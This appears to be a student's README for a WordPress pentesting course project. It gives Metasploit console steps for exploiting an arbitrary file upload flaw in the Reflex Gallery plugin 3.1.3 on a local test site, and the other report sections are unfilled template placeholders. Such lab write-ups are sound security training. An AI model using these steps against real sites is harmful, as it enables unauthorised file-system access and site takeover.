 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Arbitrary File Upload
  - [ ] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [ ] GIF Walkthrough: <img src="arbitrary_file.gif">
  - Steps to recreate: 
		1. '''Start service postgresql start'''
		2. '''msfdb init'''
		3. '''msfconsole'''
		4. At this point, you will be inside of the Metasploit console
		5. '''db_status (If it reads Connected to msf, you're good to go)'''
		6. '''search Reflex'''
		7. '''use 0'''
		8. '''set RHOST 127.0.0.1'''
		9. '''set RPORT 8080'''
		10. '''set LHOST 192.168.65.3 (Different in some cases, it's eth0 under ifconfig)'''
		11. '''exploit (this will gain you access to the file system to edit php files)'''
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: -

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with Screen To GIF

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.